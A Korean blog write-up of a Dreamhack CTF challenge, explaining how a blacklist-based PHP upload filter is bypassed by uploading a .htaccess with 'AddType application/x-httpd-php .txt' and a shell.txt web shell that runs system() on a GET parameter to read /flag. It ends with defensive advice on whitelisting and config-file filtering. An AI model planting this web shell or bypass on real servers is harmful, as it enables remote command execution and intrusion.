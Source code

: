 ```yaml
---
title: (13) Dreamhack Apache htaccess 문제 풀이
date: 2024-01-16 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
파일 업로드 기능을 악용하여 서버의 권한을 획득하세요 !  
  
## .htaccess
htaccess는 hypertext access의 약자로, 이 파일이 있는 디렉토리는 서버 메인 설정과 별개로 해당 디렉토리와 그 하위 디렉토리에 대한 설정을 변경할 수 있습니다.  
다양한 설정들이 있으나, 이번에 사용해볼 것은 AddType이라는 지시어 입니다.  
  
AddType 지시어는 특정 확장자를 다른 확장자로 간주하도록 할 수 있는 기능입니다.  
예를 들어,
```
AddType application/x-httpd-php .txt
```
다음과 같이 입력하면, 이 .htaccess파일이 존재하는 디렉토리 및 그 하위 디렉토리에서는 .txt파일이 php와 같이 동작하게 됩니다.

## 문제 풀이
![](https://kyuyeop.github.io/assets/img/post/13/1.png)
사이트에는 이런 형태의 파일 업로드 기능이 구현되어 있습니다.
```php
<?php
$deniedExts = array("php", "php3", "php4", "php5", "pht", "phtml");

if (isset($_FILES)) {
    $file = $_FILES["file"];
    $error = $file["error"];
    $name = $file["name"];
    $tmp_name = $file["tmp_name"];
   
    if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
    }else {
        $temp = explode(".", $name);
        $extension = end($temp);
       
        if(in_array($extension, $deniedExts)){
            die($extension . " extension file is not allowed to upload ! ");
        }else{
            move_uploaded_file($tmp_name, "upload/" . $name);
            echo "Stored in: <a href='/upload/{$name}'>/upload/{$name}</a>";
        }
    }
}else {
    echo "File is not selected";
}
?>
```
업로드 기능은 위와 같이 구현되어 있는데, php 관련 확장자들은 필터링해서 업로드를 막고 있습니다.  
※참고로 php 버전이 5.x버전이라 php7 확장자는 사용할 수 없었습니다.  
  
하지만 앞서 살펴본 .htaccess 파일에 대한 필터링은 없네요.
그래서 저는 아래 두 파일을 업로드 시켰습니다.  
  
.htaccess
```
AddType application/x-httpd-php .txt
```
  
shell.txt
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
~~제가 맨날 사용하는 그 쉘입니다.~~ 두 파일 모두 업로드를 마친 후에 `/upload/shell.txt`로 들어가 보면 정상적으로 php파일 화면이 나옵니다. 이제 flag만 찾으면 됩니다.

flag는 /flag에 있습니다.
`/flag`를 입력하고 실행해주면
![](https://lkyuyeop.github.io/assets/img/post/13/2.png)
flag를 얻었습니다.  
  
확장자를 예측할 수 없는 파일 업로드에는 이런 설정파일도 필터링해야 합니다.  
또한 이 문제같은 블랙리스트 기반 필터링 보다는 화이트리스트 기반 필터링이 안전하고요.  
업로드 했다고 해도 저렇게 경로를 알기 쉽게 하거나, 안전한 형태로 저장하지 않는 것은 위험합니다.
{% endraw %}